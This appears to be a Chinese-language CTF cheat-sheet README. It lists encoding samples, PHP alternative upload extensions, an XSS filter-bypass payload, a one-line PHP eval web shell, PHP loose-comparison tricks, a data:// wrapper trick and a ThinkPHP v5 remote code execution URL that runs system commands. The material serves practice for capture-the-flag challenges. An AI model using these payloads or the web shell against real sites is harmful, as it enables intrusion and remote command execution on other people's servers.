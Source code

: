 # CTF_one_for_all

记录刷题遇到的一些技巧点(所有标题均为关键字)

## 常见加密

- hex:`3535352e706e67 `
- base64:`ZmxhZw==`
- base32:`MZWGCZY=`
- base16:`666C6167`
- md5:`327a6c4304ad5938eaf0efb6cc3e53dc`

## 常见php替代后缀

- .php
- .pth
- phtml
- php3
- php4
- php5

## XSS

<scriphostt>alert(1)</scriphostt>



## php马

```
<script language="php">eval($_REQUEST[1])</script> 
```

## 变量==0

可以传入a这个字符串，等价与0

## 变量不为数字且==数字

'12345a' == 12345

## 命令执行查找文件

```find / -name "flag*"```

## \x35\x44转数字

直接用python print即可

## file_get_content

file_get_content()这个函数不可以读变量的值，但是可以通过传入伪协议读文件,比如直接读flag文件

```
data://text/plain;base64,SSBsb3ZlIFBIUAo=
```
## thinkphp v5远程代码执行

```
http://your-ip:8080/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

```